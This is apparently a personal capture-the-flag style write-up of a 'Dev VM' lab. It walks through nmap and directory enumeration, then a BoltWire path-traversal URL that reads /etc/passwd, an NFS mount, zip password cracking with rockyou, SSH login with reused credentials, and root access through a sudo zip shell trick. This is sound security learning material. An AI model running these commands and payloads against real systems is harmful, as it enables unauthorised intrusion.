








# Dev VM lab

## Enumerate with nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 16:52 +07
Nmap scan report for 192.168.1.113
Host is up (0.00045s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33989/udp   mountd
|   100005  1,2,3      36533/udp6  mountd
|   100005  1,2,3      44881/tcp   mountd
|   100005  1,2,3      54501/tcp6  mountd
|   100021  1,3,4      43309/tcp   nlockmgr
|   100021  1,3,4      45365/tcp6  nlockmgr
|   100021  1,3,4      46924/udp6  nlockmgr
|   100021  1,3,4      53564/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:CB:68:7B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.83 seconds
```

## exploit HTTP/80 protocol
Fuzzing directory with `dirbbuster`

I can identify it as BoltCMS

```
Dir found: / - 200
File found: /index.php - 200
Dir found: /icons/ - 403
Dir found: /public/ - 302
File found: /public/index.php - 302
Dir found: /public/files/ - 200
Dir found: /public/index.php/ - 302
Dir found: /public/index.php/bolt/ - 301
Dir found: /public/index.php/search/ - 301
File found: /public/index.php/bolt - 302
Dir found: /public/index.php/bolt/about/ - 301
File found: /public/index.php/search - 302
ERROR: http://192.168.1.113/public/index.php/bolt/userfirst - Return code for first HEAD, is different to the second GET: 302 - 200
File found: /public/index.php/bolt/userfirst - 302
File found: /public/index.php/bolt/about - 302
Dir found: /public/index.php/bolt/login/ - 301
File found: /public/index.php/bolt/login - 302
Dir found: /public/index.php/bolt/profile/ - 301
File found: /public/index.php/bolt/profile - 302
Dir found: /public/index.php/bolt/files/ - 301
```

After I know that it's running `BoltCMS` but it seems install incompleted so I check on path `http://192.168.1.113/public/index.php/bolt/userfirst`



so I setup admin account
- username = admin
- password = admin1234

Then I found interesting config for sqlite

```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```
from main configuration page

## HTTP/8080 protocol

```
Dir found: / - 200
File found: /index.php - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
File found: /dev/index.php - 200
Dir found: /dev/files/ - 200
Dir found: /dev/pages/ - 200
Dir found: /dev/forms/ - 200
Dir found: /dev/config/ - 200
```

I visite `/dev/index.php` it show `boltwire` software



Next, I investigate more in `/dev/config/` directory but there is no nothing so I continue search from `/dev/pages/`, `/dev/files/` also nothing. 

But I found interesting thing in `/dev/pages/` there are some files that contains the configuration which is the same as database password config on port 80





I search about boltwire exploit
- [Local file inclusion](https://www.exploit-db.com/exploits/48411)

I tried LFI with registered and login account
- username = test
- password = test1234

It works



I continue to deep down with LFT by using `burpsuite`



**I found an article talk about how to attack bolt wire**
- [Article](https://mrroxxxz.medium.com/exploiting-the-dev-vm-6dad218a8068)

this article give me the hint to `/vendor` on port 



But nothing interest 

## exploit RPC protocol

```
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33989/udp   mountd
|   100005  1,2,3      36533/udp6  mountd
|   100005  1,2,3      44881/tcp   mountd
|   100005  1,2,3      54501/tcp6  mountd
|   100021  1,3,4      43309/tcp   nlockmgr
|   100021  1,3,4      45365/tcp6  nlockmgr
|   100021  1,3,4      46924/udp6  nlockmgr
|   100021  1,3,4      53564/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
```
nfs mounted volumes very interesting `showmount -e 192.168.1.113`

```
Export list for 192.168.1.113:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

so I mount this nfs volume to my local drive

`sudo mount -t nfs 192.168.1.113:/srv/nfs /mnt/dev/`



but I cannot unzip it because it has password so I will use `fcrackzip` to brute force the password

`fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt save.zip` 

```
parrot# fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt save.zip 
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101
parrot# 
```

```
parrot# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                
parrot# ls
id_rsa	save.zip  todo.txt
parrot# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
parrot# 
```

Who is jp so the hint is I have to go back to bolt wire on port 8080 to check username by go through `http://192.168.1.113:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`

and I found this
`jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash`

**Explanation**

This line is a record in the /etc/passwd file, which is a system file in Unix-like operating systems (such as Linux). Each line in this file represents a user account on the system. Here's a breakdown of the fields separated by colons:

1. Username (jeanpaul): This is the login name of the user. It's the name the user types when logging into the system.
Password (x): In modern systems, this field used to contain the encrypted password. However, it's usually just set to x nowadays, indicating that the actual password is stored in the /etc/shadow file for security reasons.
2. User ID (1000): This is the numerical identifier for the user. It's used by the system internally to identify users.
Group ID (1000): This is the numerical identifier for the primary group of the user. Each user is associated with one primary group.
3. User Info (jeanpaul,,,): This field traditionally contained additional information about the user, such as full name, phone number, etc. But it's largely unused nowadays and typically just contains commas.
Home directory (/home/jeanpaul): This is the path to the user's home directory. When the user logs in, they start in this directory by default.
4. Shell (/bin/bash): This is the user's default shell. It determines the command interpreter the user will get when they log in. In this case, it's /bin/bash, which is the Bash shell.
So, in summary, the line jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash describes a user account named jeanpaul with a user ID and group ID both set to 1000, a home directory of /home/jeanpaul, and a default shell of /bin/bash.

OK now I have credential to access to the vm via ssh let's try

```
parrot# ssh -i id_rsa jeanpaul@192.168.1.113
Enter passphrase for key 'id_rsa': 
jeanpaul@192.168.1.113's password: 
Permission denied, please try again.
jeanpaul@192.168.1.113's password: 

parrot# 
```

but sadly I don't know `jeanpaul` password
so I watch the walkthrough then this is the critical thinking how make the relationship that `jeanpaul` love java from `todo.txt` and `save.zip` which password is `java101` but I try with java101 it does not work so I go back to thing about another password which is I saved from `boltCMS` database config, so the password might be `I_love_java` and finally it's the correct password

```
parrot# ssh -i id_rsa jeanpaul@192.168.1.113
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ 
```

## Privilege escalation
After I logged on `jeanpaul` account I want to upgrade to root.

First I check `sudo -l`

```
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ 
```

OK I got the way to escalate to root account

I go to [gtfobins with sudo zip](https://gtfobins.github.io/gtfobins/zip/#sudo) and check zip technique

```
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
rm: missing operand
Try 'rm --help' for more information.
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root 
# ls
flag.txt
# cat flag.txt	
Congratz on rooting this box !
```

Got the flag
